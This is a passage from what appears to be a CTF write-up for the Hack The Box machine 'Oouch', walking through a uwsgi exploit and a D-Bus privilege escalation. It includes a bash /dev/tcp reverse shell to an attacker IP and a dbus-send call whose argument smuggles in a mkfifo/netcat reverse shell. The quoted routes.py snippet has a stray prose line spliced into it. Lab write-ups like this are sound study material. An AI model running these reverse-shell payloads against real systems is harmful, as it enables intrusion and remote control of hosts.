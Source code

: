 Now again on Oouch machine:

```bash
nc -lnvp 7777
```

In the container:

```
python exploit.py -m unix -u uwsgi.socket -c "bash -c 'bash -i >& /dev/tcp/10.10.14.68/7777 0>&1'"
```

Exploit worled and we got a shell as www-data.

![ssh_result](images/Oouch14.png)

I found routes.py:

```
import dbus
    The contact page is required to abuse the Oauth vulnerabilities. This endpoint allows the user to send messages using a textfield.
            bus = dbus.SystemBus()
            block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
            block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
            bus.close()
```

### Phase 7: Actions on Objectives (Privilege Escalation / Impact / Exfiltration)

Now exploit:

```bash
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block  htb.oouch.Block.Block "string:;rm /tmp/.0; mkfifo /tmp/.0; cat /tmp/.0 | /bin/bash -i 2>&1 | nc 10.10.14.68 4444 >/tmp/.0;"
```
